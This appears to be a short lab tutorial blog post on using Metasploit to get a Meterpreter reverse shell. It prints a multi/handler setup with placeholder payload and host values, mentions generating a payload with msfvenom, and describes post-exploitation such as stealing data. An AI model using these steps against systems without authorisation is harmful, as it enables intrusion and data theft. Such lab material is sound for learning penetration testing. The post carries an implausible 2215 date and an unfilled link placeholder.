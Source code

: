 +++
title = "Using Metasploit To Get A Reverse Shell"
description = "Simple Metasploit Attack on Target"
tags = [ "Metasploit", "Attack", "Reverse", "LAB" ]
date = "2215-09-01"
location = "127.0.0.1"
categories = ["Metasploit","LAB"]
slug = "Simple-Attack"
type = "post"
+++




So using the Metasploit Framework you can create a malicious payload (Meterpreter Reverse Shell) and then setup a handler to receive this connection.
By doing this you have a shell on the target machine which you can then escalate privileges, steal data or any other post exploitation.


This images shows how reverse and bind shells work.

![MSFRBS](/img/Metasploit/RevShellBind.png)



First step is to setup a handler to receive the reverse connection. This can be done using the Metasploit Framework as shown bellow.



### HANDLER

Metasploit handlers are best to use for Meterpreter or most reverse shells.
Bellow is the code to set one up using Metasploit.


```
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
exploit

```

![MSFHLD](/img/Metasploit/Handler/MSFLPHD.png)



### PAYLOAD



Once the handler has been setup you will need to generate a malicious payload to run on the target machine.
Check out some common payloads with Msf Venom here  --- ADD LINK TO MSF VENOM----



![MSFHLD](/img/Metasploit/MsfVenom/MSFPG.png)


### REVERSE SHELL



Once executed on the Target machine your attacking machine will receive the connecting and in this case giving you a Meterpreter reverse Shell.


![MSFHLD](/img/Metasploit/Handler/MSFLPHALL.png)

